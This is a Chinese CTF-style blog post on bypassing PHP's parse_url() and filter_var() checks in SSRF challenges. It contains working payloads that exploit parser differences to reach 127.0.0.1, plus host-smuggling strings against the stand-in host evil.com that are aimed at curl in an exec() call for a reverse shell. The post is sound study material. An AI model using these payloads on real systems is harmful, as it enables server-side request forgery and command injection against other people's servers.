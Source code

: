 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SSRF中两个函数的绕过               # 标题 
subtitle:    #副标题
date:       2020-03-03              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SSRF

---
```

# 前言
在SSRF中我们经常遇到这两个函数filter_var()和parse_url(),今天来学习一下这两个函数相关的绕过方法.
# parse_url()
## 函数介绍
parse_url用来解析 URL，返回其组成部分(返回一个关联数组)
语法如下:
``` php
 parse_url (url,commpent) : mixed
```
其中,url为需要解析的url(必需),commpent为指定 PHP_URL_SCHEME、 PHP_URL_HOST、 PHP_URL_PORT、 PHP_URL_USER、 PHP_URL_PASS、 PHP_URL_PATH、 PHP_URL_QUERY 或 PHP_URL_FRAGMENT 的其中一个来获取 URL 中指定的部分的 string.(非必需)
## 绕过
我们需要知道libcurl和parse_url的解析差异.
```
完整url: scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]
这里仅讨论url中不含'?'的情况
php parse_url：
host: 匹配最后一个@后面符合格式的host
libcurl：
host：匹配第一个@后面符合格式的host
```
比如，
```
http://u:p@baidu.com@bilibili.com/
```
parse_url和libcurl的解析分别如下:
```
    parse_url解析结果：
    schema: http 
    user: u
    pass: p@baidu.com
    host: bilibili.com
    
libcurl解析结果：
    schema: http
    host: baidu.com
    user: u
    pass: p
    port: 80
    后面的@bilibili.com/会被忽略掉
```
## 题目分析
题目中部分代码如下:
``` php
<?php
$url = @$_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
if (parse_url($url,PHP_URL_SCHEME) !== "http"){
    die('step 10 fail');
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
$output = curl_exec($ch);
curl_close($ch);
if($output === FALSE){
    die('step 11 fail');
}
else{
    echo $output;
}
```
结合上面的知识，我们可以构造出如下payload:
```
http://u:p@127.0.0.1:80@www.baidu.com/flag.php
```
# filter_var()
## 函数介绍
filter_var() 函数通过指定的过滤器过滤一个变量。如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。  
语法如下:
``` php
filter_var(variable, filter, options) 
```
其中,variable是判断的字符串(必需),filter是相应的过滤器ID,通常在SSRF中对应的是FILTER_VALIDATE_URL,即判断是不是URL。
## 绕过
在CTF中我们经常见到这样的代码
``` php
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      if(preg_match('/google\.com$/', $r['host'])) 
      {
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
```
可以想见，题目的解法就是想办法执行curl语句进而利用curl反弹shell,所以关键就在于绕过preg_match,filter_var.
我们需要知道以下知识:
> 许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。
字符";", "/", "?", ":", "@", "=" 和"&"是被保留的。
除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如"；"和"="用来分割参数和参数值。逗号也有着类似的作用。
例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。
例如，如果用于hostname上，URL"http://evil.com;baidu.com"会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com  

知晓了上面的原理后,我们可以构造出这样的结果:
``` 
http://evil.com;google.com
```
但是可以看出,这样并不能通过filter_var的检测.
![](/blog_img/ssrf2_1.png)
但当我们修改为:
```
0://evil.com;google.com
```
可以看到，成功进入了exec()语句.
![](/blog_img/ssrf2_1.png)
但是这样并不能执行curl语句,我们可以通过制定特定端口即可解决这个问题。于是有最终payload:
```
0://evil.com:80;google.com:80
```
需要注意的是:
```
使用逗号代替分号会出现同样的情况
前面的0可以用其他非协议字段代替
```
另外，当像本题一样当使用了exec()函数而且脚本又使用[host]来创建一个curl HTTP请求时，我们还可以采用以下的payload:
```
0://evil$google.com
```

# 参考文章
[v0w的博客](https://v0w.top/2018/11/23/SSRF-notes/#2-parse-url%E4%B8%8Elibcurl%E5%AF%B9curl%E7%9A%84%E8%A7%A3%E6%9E%90%E5%B7%AE%E5%BC%82)  
[secjuice上的文章](https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51)  

